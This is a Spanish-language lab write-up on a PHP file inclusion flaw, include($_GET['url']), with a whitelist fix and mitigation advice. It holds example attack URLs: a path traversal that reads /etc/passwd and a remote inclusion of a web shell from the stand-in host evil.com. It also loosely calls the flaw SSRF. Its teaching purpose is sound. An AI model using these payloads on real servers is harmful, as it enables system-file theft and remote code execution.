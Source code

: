 
#### Alternativa segura

```php
<?php
$permitidos = ['pagina1.php', 'pagina2.php'];

if (isset($_GET['url']) && in_array($_GET['url'], $permitidos)) {
	include($_GET['url']);
} else {
	echo "URL no permitida.";
}
?>
```

---

#### Conclusión

Este laboratorio demuestra cómo un simple uso de `include($_GET['url'])` puede derivar en un **ataque SSRF**, permitiendo al atacante interactuar con recursos internos y potencialmente tomar control del sistema.

---


#### Vulnerabilidad: Inclusión de archivos

Este código es vulnerable a una **File Inclusion Vulnerability**, que puede ser:

### 1. LFI (Local File Inclusion)

Permite incluir archivos locales del sistema.

**Ejemplo:**

```
http://example.com/script.php?url=../../../../etc/passwd
```

### 2. RFI (Remote File Inclusion)

Si la directiva `allow_url_include` está activada en `php.ini`, se pueden incluir archivos remotos.

**Ejemplo:**

```
http://example.com/script.php?url=http://evil.com/shell.php
```

Esto puede conducir a una **RCE (Remote Code Execution)**.

---

#### Mitigación recomendada

* **No incluir archivos directamente desde `$_GET`.**
* Validar los archivos permitidos usando listas blancas.
* Desactivar `allow_url_include` en `php.ini`.
* Usar rutas absolutas seguras o funciones como `basename()` para validar.

---